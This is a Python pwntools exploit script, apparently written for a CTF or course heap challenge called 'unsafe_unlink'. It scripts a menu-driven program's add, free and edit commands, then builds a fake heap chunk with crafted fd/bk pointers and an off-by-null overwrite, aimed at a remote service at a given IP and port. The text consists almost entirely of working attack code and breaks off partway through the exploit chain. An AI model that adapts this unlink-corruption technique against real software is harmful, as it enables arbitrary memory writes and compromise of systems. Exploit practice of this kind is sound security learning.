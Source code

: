 ```python
from pwn import *

#context.log_level = 'DEBUG'

def add_ddl(time, content):
    p.recvuntil("Your chocie:\n")
    p.sendline("1")
    p.recvuntil("input the ddl time")
    p.sendline(time)
    p.recvuntil("input the ddl content")
    p.sendline(content)
    p.recvuntil("done")

def free_ddl(index):
    p.recvuntil("Your chocie:\n")
    p.sendline("2")
    p.recvuntil("input the ddl index")
    p.sendline(index)
    p.recvuntil("done")

def edit_ddl(index, time, content):
    p.recvuntil("Your chocie:\n")
    p.sendline("4")
    p.recvuntil("input the ddl index")
    p.sendline(index)
    p.recvuntil("input the new ddl time")
    p.sendline(time)
    p.recvuntil("input the new ddl content")
    p.sendline(content)
    p.recvuntil("done")

def check():
    p.recvuntil("Your chocie:\n")
    p.sendline("6")
    


local = 0
fake_chunk_size = 0x5f0
array_addr = 0x6020e0
targetID_addr = 0x6020c0
fake_chunk_fd = array_addr - (3 * 8)
fake_chunk_bk = array_addr - (2 * 8)

if local:
    p = process('./unsafe_unlink', env = {'LD_LIBRARY_PATH': '.'})
else:
    p = remote("47.99.80.189", 10031)
    libc = ELF('libc-2.27.so')
    p.recvuntil("ID:")
    p.sendline("3180103650")

#raw_input()

# 1. set heap layout: A->B->C
add_ddl("AAAA", "AAAA")
add_ddl("BBBB", "BBBB")
add_ddl("CCCC", "CCCC")

# 2. off-by-null:
edit_ddl("1", p64(0x0) + p64(fake_chunk_size) + p64(fake_chunk_fd) + "\xd0\x20\x60", "\x00" * 0x5d0 + p64(fake_chunk_size))  

```